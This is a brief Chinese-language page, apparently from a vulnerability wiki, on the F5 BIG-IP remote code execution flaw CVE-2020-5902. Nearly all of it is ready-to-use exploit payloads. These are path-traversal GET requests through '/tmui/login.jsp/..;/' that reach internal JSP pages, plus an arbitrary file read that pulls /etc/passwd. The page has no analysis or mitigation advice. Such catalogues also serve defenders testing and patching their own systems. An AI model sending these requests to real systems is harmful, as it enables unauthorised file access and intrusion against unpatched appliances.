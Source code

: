 ## F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） {docsify-ignore}

编辑：[@r4v3zn](https://github.com/0nise)

分析作者：[@Jas502n](https://github.com/jas502n)、[@Jayway007](https://github.com/Jayway007)

### Payload

```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 
GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```

![](cve-2020-5902/1.png)

任意文件读取

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```
